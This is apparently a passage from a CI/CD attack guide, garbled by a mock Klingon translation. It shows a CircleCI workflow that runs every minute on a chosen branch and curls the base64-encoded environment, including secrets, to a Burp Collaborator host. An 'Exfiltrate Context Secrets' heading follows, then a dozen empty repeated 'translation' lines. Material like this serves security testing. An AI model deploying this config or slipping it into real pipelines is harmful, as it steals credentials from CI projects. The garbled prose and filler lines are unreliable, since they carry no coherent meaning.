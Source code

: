 ```yaml
```

**ghItlhvam** **web console** **ghItlhvam** **repo** **'ej** CircleCI **vaj** **ghItlhvam** **workflow** **cha'logh** **cha'logh** **'ej** **'oH** **secrets** **'ej** **'oH** **external address** **qach** **exfils**.
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### Exfiltrate Context Secrets

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**
